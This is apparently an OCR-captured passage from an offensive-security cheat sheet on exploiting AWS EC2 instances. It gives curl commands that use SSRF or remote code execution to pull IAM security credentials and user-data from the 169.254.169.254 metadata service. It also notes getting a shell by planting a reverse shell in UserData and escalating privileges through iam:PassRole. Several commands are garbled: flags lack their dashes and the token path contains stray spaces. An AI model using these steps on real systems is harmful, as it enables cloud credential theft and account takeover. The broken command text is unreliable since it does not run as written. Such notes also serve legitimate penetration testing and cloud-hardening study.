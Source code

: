 *This command gathers the metadata from the instance, like commands or secrets. The output is base64 encoded*

### Listing roles of an instance

```
aws ec2 describe-iam-instance-profile-associations
```

## Exploitation
* Initial access can happen by RCE or SSRF
* Metadata can be used to exfiltrate information from the instance

### Remote code execution

#### AWS Metadata
If we have remote code execution or SSRF, we can grab metadata information

```
curl http://169.254.169.254/latest/meta-data
```

##### Grabbing the keys to access the instance

```
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

##### Grabbing the keys in metadata version 2 

```bash
TOKEN=`curl
X PUT "http://169.254.169.254/latest/ api /token" H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
&& curl H "X-aws-ec2-metadata-token: $TOKEN" v http://169.254.169.254/latest/meta-data/
```

#### AWS Userdata

Version 1

```
curl http://169.254.169.254/latest/user-data/
```

Version 2

```bash
TOKEN=`curl
X PUT "http://169.254.169.254/latest/ api /token" H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
&& curl H "X-aws-ec2-metadata-token: $TOKEN" v http://169.254.169.254/latest/user-data/
```

### Privilege Escalation
* One approach to get a shell in a instance is to put a reverse shell in UserData attribute, when the  instance is launched, we will have the connection.
* Another approach happens when we have the iam:PassRole and iam:AmazonEC2FullAccess permissions, we can add an administrator role to the compromised EC2 instance and access aws services.
